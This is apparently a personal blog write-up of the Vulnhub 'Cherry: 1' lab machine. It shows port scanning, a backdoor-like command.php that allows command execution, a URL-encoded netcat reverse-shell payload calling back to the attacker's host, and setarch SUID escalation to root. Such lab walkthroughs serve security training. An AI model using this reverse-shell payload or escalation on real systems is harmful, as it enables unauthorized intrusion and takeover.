```yaml
---
layout: post
title:  "Vulnhub - Cherry: 1"
date:   2020-09-16 20:00:00 +1000
category: hacking
---
```


## Introduction
*Difficulty: Easy  
Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)  
Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).*

This is another easy rated box from the same people who made Chili.

## nmap
This time we get four ports:

1. 22/tcp    open  ssh
2. 80/tcp    open  http
3. 7755/tcp  open  unknown
4. 33060/tcp open  mysqlx

With a detail scan we find out that port 80 is running **nginx** and port 7755 is another HTTP server, but this time it's **apache**. Nmap isn't sure what port 33060 is, despite suggesting it may be *mysqlx*. 

# HTTP
Fuzzing for subdomains turns up nothing, and gobusting turns up just a single directory - */backup*. We get a picture of a cherry from the front page of the webservers, but this time I didn't bother with trying stego techniques on it. The two webservers appear basically identical, except on apache we can access */backup* whereas on nginx it's forbidden.

So, what's in backup? This stuff:

1.  command.php	2020-09-07 03:30 	293 	 
2.  latest.tar.gz	2020-09-01 18:54 	12M	 
3.  master.zip	2020-09-07 03:33 	11M	 
4.  master.zip.bak	2020-09-07 03:34 	11M	 

We download these files, and the interesting one is *command.php*. Here's what it contains:

{% highlight html %}
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Backup</title>
</head>
<body>
<!-- </?php echo passthru($_GET['backup']); ?/> -->
</body>
</html>
{% endhighlight %}

Hmm. So what happens if we do this?:

``
http://192.168.1.81:7755/backup/command.php?backup=whoami
``

Response:
``
www-data
``

So this gives us our RCE. 

## Shell 
I used Burp Suite with the following payload:

``
GET /backup/command.php?backup=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.1.77+1235+>/tmp/f HTTP/1.1
``

to get a shell, and then I ran Linpeas.

## Privesc
It's an SUID binary; this time it's [setarch](https://gtfobins.github.io/gtfobins/setarch/#suid)

{% highlight shell %}
$ setarch $(arch) /bin/sh -p
whoami
root
cd /root
ls -lash
total 44K
4.0K drwx------  5 root root 4.0K Sep  7 04:21 .
4.0K drwxr-xr-x 20 root root 4.0K Sep  7 02:18 ..
4.0K -rw-------  1 root root  164 Sep  7 04:21 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Sep  7 02:33 .local
4.0K -rw-------  1 root root   18 Sep  7 02:37 .mysql_history
4.0K -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4.0K drwx------  2 root root 4.0K Sep  7 02:21 .ssh
4.0K -rw-r--r--  1 root root  255 Sep  7 04:13 .wget-hsts
4.0K -rw-r--r--  1 root root   46 Sep  7 04:20 proof.txt
4.0K drwxr-xr-x  3 root root 4.0K Sep  7 02:21 snap
cat proof.txt
Sun_CSR_TEAM.af6d45da1f1181347b9e2139f23c6a5b
{% endhighlight %}

So yes, it was easy after all.

